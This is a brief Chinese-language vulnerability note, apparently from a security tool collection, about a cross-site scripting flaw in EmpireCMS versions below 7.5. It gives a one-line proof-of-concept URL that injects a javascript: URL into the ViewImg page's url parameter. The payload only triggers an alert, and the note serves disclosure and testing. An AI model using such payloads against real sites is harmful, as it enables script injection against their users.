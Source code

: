 ```yaml
---
title: 'EmpireCMS 全版本XSS漏洞'
date: Sat, 05 Sep 2020 13:16:35 +0000
draft: false
tags: ['白阁-武器库']
---
```


### 漏洞范围

EmpireCMS 全版本 <7.5

### 漏洞POC

```
http://*******/e/ViewImg/index.html?url=javascript:alert(/xss/)
```

![](EmpireCMS%20%E5%85%A8%E7%89%88%E6%9C%ACXSS%E6%BC%8F%E6%B4%9E/K52GS8VKPFJ7RHL7J1.png) ![](EmpireCMS%20%E5%85%A8%E7%89%88%E6%9C%ACXSS%E6%BC%8F%E6%B4%9E/PWG@XY7ATDZ@YR.png)